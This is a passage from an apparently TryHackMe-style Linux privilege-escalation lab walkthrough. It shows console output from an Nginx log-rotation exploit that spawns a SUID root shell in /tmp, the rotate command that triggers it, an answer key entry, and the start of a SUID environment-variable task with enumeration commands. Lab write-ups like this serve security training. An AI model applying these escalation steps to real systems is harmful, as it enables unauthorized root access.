 ```console
-rwsrwxrwx 1 root root 926536 Apr 18 08:53 /tmp/nginxrootsh

The server is (N)jinxed ! ;) Got root via Nginx!

[+] Spawning the rootshell /tmp/nginxrootsh now! 

nginxrootsh-4.1# id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=0(root),33(www-data)
nginxrootsh-4.1#
```
{: .nolineno }

Termial 2 : 

```console
root@debian:~# id
uid=0(root) gid=0(root) groups=0(root)
root@debian:~# invoke-rc.d nginx rotate >/dev/null 2>&1
root@debian:~# 
```
{: .nolineno }

Answer : sudo

## TASK 13 : Privilege Escalation - SUID (Environment Variables #1)
### What is the last line of the "strings /usr/local/bin/suid-env" output? 
Detection :

```console
TCM@debian:~$ find / -type f -perm -04000 -ls 2>/dev/null
809081   40 -rwsr-xr-x   1 root     root        37552 Feb 15  2011 /usr/bin/chsh
812578  172 -rwsr-xr-x   2 root     root       168136 Jan  5  2016 /usr/bin/sudo
810173   36 -rwsr-xr-x   1 root     root        32808 Feb 15  2011 /usr/bin/newgrp
812578  172 -rwsr-xr-x   2 root     root       168136 Jan  5  2016 /usr/bin/sudoedit
809080   44 -rwsr-xr-x   1 root     root        43280 Jun 18  2020 /usr/bin/passwd
809078   64 -rwsr-xr-x   1 root     root        60208 Feb 15  2011 /usr/bin/gpasswd
809077   40 -rwsr-xr-x   1 root     root        39856 Feb 15  2011 /usr/bin/chfn
816078   12 -rwsr-sr-x   1 root     staff        9861 May 14  2017 /usr/local/bin/suid-so
816762    8 -rwsr-sr-x   1 root     staff        6883 May 14  2017 /usr/local/bin/suid-env
816764    8 -rwsr-sr-x   1 root     staff        6899 May 14  2017 /usr/local/bin/suid-env2
815723  948 -rwsr-xr-x   1 root     root       963691 May 13  2017 /usr/sbin/exim-4.84-3
832517    8 -rwsr-xr-x   1 root     root         6776 Dec 19  2010 /usr/lib/eject/dmcrypt-get-device
832743  212 -rwsr-xr-x   1 root     root       212128 Apr  2  2014 /usr/lib/openssh/ssh-keysign
812623   12 -rwsr-xr-x   1 root     root        10592 Feb 15  2016 /usr/lib/pt_chown
473324   36 -rwsr-xr-x   1 root     root        36640 Oct 14  2010 /bin/ping6
473323   36 -rwsr-xr-x   1 root     root        34248 Oct 14  2010 /bin/ping
473292   84 -rwsr-xr-x   1 root     root        78616 Jan 25  2011 /bin/mount
473312   36 -rwsr-xr-x   1 root     root        34024 Feb 15  2011 /bin/su
473290   60 -rwsr-xr-x   1 root     root        53648 Jan 25  2011 /bin/umount
1158725  912 -rwsrwxrwx   1 root     root       926536 Apr 18 08:53 /tmp/nginxrootsh
1158723  912 -rwsr-sr-x   1 root     staff      926536 Apr 18 08:44 /tmp/bash
465223  100 -rwsr-xr-x   1 root     root        94992 Dec 13  2014 /sbin/mount.nfs
TCM@debian:~$ strings /usr/local/bin/suid-env
/lib64/ld-linux-x86-64.so.2
5q;Xq
__gmon_start__
libc.so.6
setresgid
setresuid
system
__libc_start_main
```